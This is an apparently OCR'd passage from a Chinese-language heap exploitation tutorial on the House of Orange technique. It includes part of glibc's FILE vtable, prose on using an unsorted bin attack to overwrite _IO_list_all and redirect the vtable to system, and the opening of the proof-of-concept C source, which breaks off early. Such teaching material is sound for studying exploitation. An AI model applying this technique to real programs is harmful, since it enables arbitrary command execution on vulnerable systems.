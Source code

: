 ```c
      JUMP_FIELD(_IO_seekpos_t, __seekpos);
      JUMP_FIELD(_IO_setbuf_t, __setbuf);
      JUMP_FIELD(_IO_sync_t, __sync);
      JUMP_FIELD(_IO_doallocate_t, __doallocate);
      JUMP_FIELD(_IO_read_t, __read);
      JUMP_FIELD(_IO_write_t, __write);
      JUMP_FIELD(_IO_seek_t, __seek);
      JUMP_FIELD(_IO_close_t, __close);
      JUMP_FIELD(_IO_stat_t, __stat);
      JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
      JUMP_FIELD(_IO_imbue_t, __imbue);
    };
```

综合上面的信息，可以看出`_IO_OVERFLOW`函数实际上就是取得了`_IO_list_all`指针，然后得到了`vtable`的地址，随后取得`vtable`中第4个地址，然后跳转过去。

因此只要我们可以复写`_IO_list_all`指针、伪造一个`_IO_list_all`结构，并且重写`vatble`的第4个地址为`system`，就可以命令执行了。

复写`_IO_list_all`指针可以使用`Unsorted Bin Attack`，使得`_IO_list_all`可以指向`unsorted_chunks (av)`，但是此时的为`vatble`指向的是`bins`，这里我们需要使用`_IO_flush_all_lockp`函数中的`fp = fp->_chain;`操作更新`fp`的值，这里`fp->_chain`位于偏移0x68，因此需要合理布局unsorted chunk的大小，使之在回收的时候能进入位于0x68偏移处的smallbin，也即大小为0x60的smallbin

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/*
  The House of Orange uses an overflow in the heap to corrupt the _IO_list_all pointer
  It requires a leak of the heap and the libc
  Credit: http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html
*/

/*
   This function is just present to emulate the scenario where
   the address of the function system is known.
*/
int winner ( char *ptr);

int main()
{
    /*
      The House of Orange starts with the assumption that a buffer overflow exists on the heap
      using which the Top (also called the Wilderness) chunk can be corrupted.
      
      At the beginning of execution, the entire heap is part of the Top chunk.
      The first allocations are usually pieces of the Top chunk that are broken off to service the request.
      Thus, with every allocation, the Top chunks keeps getting smaller.
      And in a situation where the size of the Top chunk is smaller than the requested value,
      there are two possibilities:
       1) Extend the Top chunk
       2) Mmap a new page

      If the size requested is smaller than 0x21000, then the former is followed.
    */

    char *p1, *p2;
    size_t io_list_all, *top;

    /*
      Firstly, lets allocate a chunk on the heap.
    */

    p1 = malloc(0x400-16);
```